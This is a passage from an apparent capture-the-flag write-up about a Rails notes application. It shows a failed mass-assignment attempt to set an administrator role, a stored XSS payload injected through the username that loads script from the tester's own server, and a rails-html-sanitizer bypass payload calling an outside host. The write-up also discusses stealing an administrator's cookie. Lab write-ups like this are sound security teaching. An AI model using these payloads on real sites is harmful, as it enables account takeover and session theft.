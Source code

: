 as we can see the body has authenticity_token and than the usernamae,pass,confirm_pass

if i add &user%5Brole%5D=administrator 

not works ! 





## Once Registered 


Once registered you can only write notes! 

and i see the `<span></span>` can trigger xss! 


However, the cookies have been set to HttpOnly, meaning that stealing cookies is pointless in this case. XSS on the administrator could either allow us to enumerate more about the /administration page, or simply to steal his cookie and impersonate him.

Because this is clearly an XSS challenge, I thought of first finding a potential XSS entry.



## Finding XSS Point

I messed around a lot with the clipnotes  but it wasn't loading Javascript. 
Then I realised that the author of the clipnotes was something that I controlled. 
I could overflow the thing or try to register a malicious user. 

Since the page renders that username, this could potentially be vulnerable.

So I started a HTTP server, and attempted this:

```
user: ahahhahhahahahhahahhahahhahahahhahahahhahahha<script src=http://10.10.14.89/lol></script>
```


then tried to write note and then go on the clipnotes/raw! 



as i expected the user name can inject stored xss!


https://security.snyk.io/vuln/SNYK-RUBY-RAILSHTMLSANITIZER-3168647

i also found a cve!


rails-html-sanitizer to version <= 1.4.4 

https://hackerone.com/reports/1530898
`<select<style/><img src='http://10.10.14.28/c0derpwner>`






## Request for a new username that can trigger the stored xss
